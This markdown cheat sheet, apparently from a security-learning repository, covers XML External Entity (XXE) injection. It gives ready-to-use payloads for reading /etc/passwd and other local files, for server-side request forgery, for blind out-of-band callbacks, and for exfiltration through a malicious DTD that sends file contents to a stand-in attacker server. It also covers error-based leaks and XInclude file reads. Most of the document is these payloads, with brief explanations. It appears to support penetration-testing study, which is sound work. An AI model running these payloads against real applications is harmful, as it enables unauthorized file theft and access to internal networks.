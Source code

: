 # XML External Entity (XXE) Injection
Misconfiguration in the application's XML parser.

**What to look for?**
- An application sends XML in its body.
- An application accepts XML based images like SVG.
- An application sends JSON data, but accepts (no error shown) XML data also.

**What is an XML entity**
- Declaring references to other points in the xml document. Like variables.
- External resources can be references using SYSTEM.

## Payloads

## Basic Exfiltration
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY vbl SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId> &vbl; </productId>
</stockCheck>
```

## XXE to SSRF
- We can make it request an internal resource.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY vbl SYSTEM "http://internalresource.com/"> ]>
<stockCheck>
<productId> &vbl; </productId>
</stockCheck>
```

## Simple Blind XXE - Out-of-Band Interaction
- The external resource fetched is not reflected in the application's response.
- First we send a normal declaration and see if there are any errors.
- If no errors, then we make it request a resource hosted on a server taht we control, and see if it receives the callback from the target.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY vbl SYSTEM "http://attackerserver.com/"> ]>
<stockCheck>
<productId> &vbl; </productId>
</stockCheck>
```

## Blind XXE - Parameter Entities
- Parameter entities are like `% vbl`.
- Used when we cannot reference our entity (&vbl;) within the XML content.
- Same asn simple blind xxe, check for callback form the target.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % vbl SYSTEM "http://attackerserver.com/"> %vbl; ]>
<stockCheck>
<productId> 201 </productId>
</stockCheck>
```

## Blind XXE - Exfiltration using Parameter Entities and DTD

Step 1: Create a `loadDtd` parameter
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % loadDtd SYSTEM "http://attackerserver.com/dtd"> %loadDtd; ]>
<stockCheck>
<productId> 201 </productId>
</stockCheck>
```

Step 2: Create the malicious DTD file with 3 parameters - file, stack, exfil
- To exfiltrate files with multiple lines (/etc/passwd), make the target callback to an FTP server
- To exfiltrate files with one line (/etc/hostname), make the target callback to a HTTP server
- The parameter `%file;` is called in DTD
- Since we are referencing the character `%` within an entity, we need to use it as `&#x25;`
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://attackserver.com/%file;'>" >
```

Step 3: Call the parameters `%stack` and `%exfil` in the XML
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % loadDtd SYSTEM "http://attackerserver.com/dtd"> %loadDtd; %stack; %exfil ]>
<stockCheck>
<productId> 201 </productId>
</stockCheck>
```

## Blind XXE - Exfiltrating files in error messages (using Parameters and DTD)
- Useful for exfiltrating files with multiple lines (/etc/passwd)

Step 1: Create a `loadDtd` parameter
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % loadDtd SYSTEM "http://attackerserver.com/dtd"> %loadDtd; ]>
<stockCheck>
<productId> 201 </productId>
</stockCheck>
```

Step 2: Create the malicious DTD file with 3 parameters - file, stack, exfil
- Reference a non-existent filepath to trigger an error
- Reference the `%file;` parameter to this non-existent filepath. 
- This will trigger an error saying the path doesn't exists where the path will contain the contents of the file.
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://idontexsist/%file;'>" >
```

Step 3: Call the parameters `%stack` and `%exfil` in the XML
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % loadDtd SYSTEM "http://attackerserver.com/dtd"> %loadDtd; %stack; %exfil ]>
<stockCheck>
<productId> 201 </productId>
</stockCheck>
```
## XInclude to exfiltrate files
- When the application does not send XML data --> `productId=1&storeId=1`
- Try sending URL encoded XML data (`%vbl;`) with it --> `productId=%26vbl;&storeId=1` 
- If it shows any XML-related error, you know it parses XML in the background
- Replace the XML data with XInclude payload
```
productId=<hack xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></hack>&storeId=1
```


**Resources**
1. [Seven Seas Security XXE](https://www.youtube.com/playlist?list=PL1GDzLoRwyVC_ZvAIbyUD2tv3OqCh8XZB)
2. [PwnFunction XXE](https://www.youtube.com/watch?v=gjm6VHZa_8s)
